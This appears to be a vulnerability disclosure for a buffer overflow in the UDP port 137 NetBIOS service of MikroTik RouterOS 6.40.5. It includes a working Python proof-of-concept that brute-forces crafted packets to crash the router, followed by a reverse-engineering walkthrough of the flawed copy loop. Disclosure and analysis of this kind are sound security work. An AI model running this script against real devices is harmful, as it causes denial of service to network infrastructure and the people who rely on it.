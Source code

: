 

# Mikrotik 6.40.5 路由器 137 接口活动参数缓冲区溢出漏洞



## 1.Basic Information



- **Vulnerability Type**: Buffer Overflow

  **Description**: A buffer overflow vulnerability exists in the Mikrotik 6.40.5 firmware. The service on UDP port 137 is vulnerable, allowing remote attackers to send specially crafted packets that trigger a buffer overflow, resulting in a Denial of Service (DoS).

  **Affected Devices and Versions**:

  - Mikrotik RouterOS 6.40.5
  - Firmware version: Mikrotik 6.40.5



## 2. Proof of Concept (PoC)

The following Python script demonstrates the vulnerability:

```py
import socket
import time

def send_netbios_name_query(target_ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    ## last byte is the brute-force target
    base_packet = bytes.fromhex(
        "82280110000100000000000024434B41414141414141414141414141414141414141414141414141414141414141414141"
    )

    for i in range(0x01, 0x100):
        packet = base_packet + bytes([i])
        print((packet))
        print(f"[+] Sending packet with last byte: {i:#04x}")
        s.sendto(packet, (target_ip, 137))
        time.sleep(0.01)  # Optional: brief delay to reduce packet loss

    print("[*] All 256 NetBIOS queries sent.")
    s.close()

send_netbios_name_query("192.168.72.140")  # Replace with your RouterOS IP
```



## 3.Exploitation Principle

A buffer overflow occurs in the sub_8060430 function, causing the return address to be overwritten. The overflow happens within the sub_8054607 function. Upon examining the function, we can see that due to the presence of a while loop, the loop only exits when v2 becomes 0; otherwise, it continuously copies data from a2 to a1.
![image](https://github.com/user-attachments/assets/00ea7384-5e73-414e-90bc-d1306a48be00)

Tracing back, we find that the a3 argument is actually a stack address passed from the previous function, meaning it has limited space. However, in the sub_8054607 function, there is no restriction on the range of memory being written to, which results in a stack overflow.To trigger the sub_8054607 function, the UDP payload must be longer than 49 bytes. Although a subsequent qmemcpy limits the amount of data copied from the received UDP packet, the sub_8054607 function itself lacks such bounds checking.
![image](https://github.com/user-attachments/assets/0be3a610-bc57-4fff-8abf-876ee329e922)

Debugging shows that the first check is passed successfully.
![image](https://github.com/user-attachments/assets/82f9e6f2-476f-45a3-9cb9-04690eaa75a6)

Next, 0x32 bytes of data are copied from the received UDP packet.
![image](https://github.com/user-attachments/assets/8c8bfff6-6273-44c5-bac1-4f883b314e4b)

The result after copying is as follows:
![image](https://github.com/user-attachments/assets/f5ae48a0-d8c7-4476-bad7-eb80ee408f48)

Later, the sub_8054607 function is called, where the length of the first copy operation is determined by the 13th byte after the previously copied data. The copying starts just after the 0x20-byte offset.
![image](https://github.com/user-attachments/assets/ce777607-1c89-44e9-b0a9-fa1cbd45a3fe)

After the first round of copying is completed — that is, when 0x20 bytes have been copied — the byte immediately following the last character of this round is treated as the length for the next round of copying. In this case, the value is 0x41.
![image](https://github.com/user-attachments/assets/19d84d5b-cddc-4262-9c44-560d034471d9)

Then proceed to start the next round of assignment
![image](https://github.com/user-attachments/assets/c12c4910-de26-488f-a5af-74a62a61a5b3)

Continue to assign values later:
![image](https://github.com/user-attachments/assets/a6a6bb3b-eeb2-4845-aff9-984668764711)

As long as the value retrieved from memory this time is not 0 (indicating the length of the next assignment), the assignment will continue downward until the retrieved length is 0, and then the loop will exit. However, as mentioned earlier, the length we can control is only 0x32 bytes, so we need to make use of the values that already exist on the stack in the program.

Finally, call the end position of the sub_8054607 function to check the stack space at this time and the position of the return value of the upper-level function (because the destination address of the assignment is inside the stack of the upper-level function) :
![image](https://github.com/user-attachments/assets/b8ac0682-b0c7-4f3f-8d4b-1c2f19b3d245)

Finally, the function returned with an error and exited:
![image](https://github.com/user-attachments/assets/12238d33-ea41-499d-926d-a9d63259075c)

To increase the probability of denial of service, we can try to blast the first or second round multiple times... .. By combining the lengths, try different numbers of rounds as many times as possible to make the number of cycles of this round as many as possible each time the explosion occurs. Finally, the purpose of overwriting the return value of the upper-level function is achieved.
The idea of the blasting script: We set the assignment length of the first round to 0x24：

![image](https://github.com/user-attachments/assets/5477f55a-2133-4991-9a93-6b1479be4874)

It is followed by 23 bytes, and the byte immediately following is the length of the second round of assignment. We can perform an explosion to maximize the use of the 1 to 255 pieces of data on the original stack to explosion the length of the third round of assignment (this will continue to affect the subsequent rounds and thus try more combinations) :
Compared with the non-blasting script: The overflow length of one attempt is not sufficient to cover the return address of the upper-level function sub_8060430
![image](https://github.com/user-attachments/assets/89096755-8a90-4787-9e19-fd0c7269f17f)

Run the blasting script at this time:
Finally, there will be a combination that overwrites the return value of the upper-level function, resulting in dos

![image](https://github.com/user-attachments/assets/f2e59d8b-84fa-4a7c-aa54-0a5c198b4e42)
![image](https://github.com/user-attachments/assets/eba41375-edfe-473f-b1d1-bc5362a8a34f)


## 6. Criteria for Determining a 0day Vulnerability

Searching the CVE database using the keywords "Mikrotik 137 port" did not reveal any related vulnerabilities (typically, directly searching for the interface name in historical vulnerability records can find similar series of vulnerabilities).







